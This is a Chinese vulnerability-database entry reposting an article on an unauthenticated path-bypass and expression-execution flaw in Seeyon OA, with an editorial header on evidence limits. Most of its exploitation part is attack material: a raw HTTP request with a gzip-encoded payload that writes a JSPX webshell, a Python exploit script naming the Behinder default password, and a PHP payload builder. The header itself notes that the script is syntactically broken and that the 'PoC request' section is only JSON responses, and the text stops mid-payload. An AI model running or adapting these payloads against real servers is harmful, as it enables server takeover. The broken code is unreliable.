




# 致远OA ajax.do路径鉴权绕过+formulaManager表达式执行写JSPX

## 条目说明

- 对象与具体问题：致远OA；ajax.do路径鉴权绕过+formulaManager表达式执行写JSPX
- 版本、配置及部署条件：列V5–V8/G6宽范围，具体补丁未明
- 认证与权限前提：未登录利用声称，经autoinstall/..;路径
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整文章大量相同压缩payload/Python/PHP块重复，宜合并去内部重复
- 离线解码gzip正文确认formulaExpression用PrintWriter写JSPX，因此根因是代码执行后写文件，不是普通上传接口
- Python vuln_url截断于&manager且引号未闭，脚本无法解析；所谓POC请求段实为JSON响应
- NullPointerException/200/404都不能单独判漏洞或成功；需唯一文件结果及权限证明
- PHP编码过程是压缩/编码不是加密，硬编码webshell凭证应明确非OA默认

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dk6aZY2fuJ_08tSOOh1Vzw)

**漏洞描述**
--------

致远 OA 是一套办公协同管理软件。近日，奇安信 CERT 监测到致远 OA 的相关漏洞信息。由于致远 OA 旧版本某些接口存在未授权访问，以及部分函数存在过滤不足，攻击者通过构造恶意请求，可在无需登录的情况下上传恶意脚本文件，从而控制服务器。致远 OA 官方已针对该漏洞提供补丁。鉴于漏洞危害较大，建议用户尽快应用补丁更新。

**漏洞影响**  

-----------

> 致远 OA V8.0
> 
> 致远 OA V7.1、V7.1SP1
> 
> 致远 OA V7.0、V7.0SP1、V7.0SP2、V7.0SP3
> 
> 致远 OA V6.0、V6.1SP1、V6.1SP2
> 
> 致远 OA V5.x
> 
> 致远 OA G6

**漏洞复现**  

-----------

通过请求判断是否可能存在漏洞

```
http://xxx.xxx.xxx.xxx/seeyon/thirdpartyController.do.css/..;/ajax.do
```

```http
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: 127.0.0.1
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
loginPageURL=; login_locale=zh_CN;
Content-Type: application/x-www-form-urlencoded

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00
```

查看是否出现如上图异常，若存在则可能出现漏洞

> **出现异常：java.lang.NullPointerException:null**

然后调用未授权的文件上传接口上传 webshell 文件  

**POC 请求包如下**

```
{
    "message":null,
    "details":null,
    "code":"0436821967"
}
```

```
{
  "message": "被迫下线，原因：与服务器失去连接",
  "code": "-1",
  "details": null
}
```

```
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 致远OA 多个版本                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_2 = target_url + "/seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&manager
    print('\033[36m[o] 正在请求: {}'.format(vuln_url_2))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url=vuln_url_2, headers=headers, data=data, verify=False)
    test_webshell(target_url)


def test_webshell(target_url):
    webshell_url = target_url + "/seeyon/PeiQi.jspx"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 正在请求 : {}/seeyon/PeiQi.jspx\033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/PeiQi.jspx\033[0m".format(target_url,target_url))
            print("\033[32m[o] webshell地址：{}/seeyon/PeiQi.jspx \033[0m".format(target_url))
            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标漏洞无法利用，写入失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用，写入失败 {} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

```
<?php 
$webshell = urldecode("%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%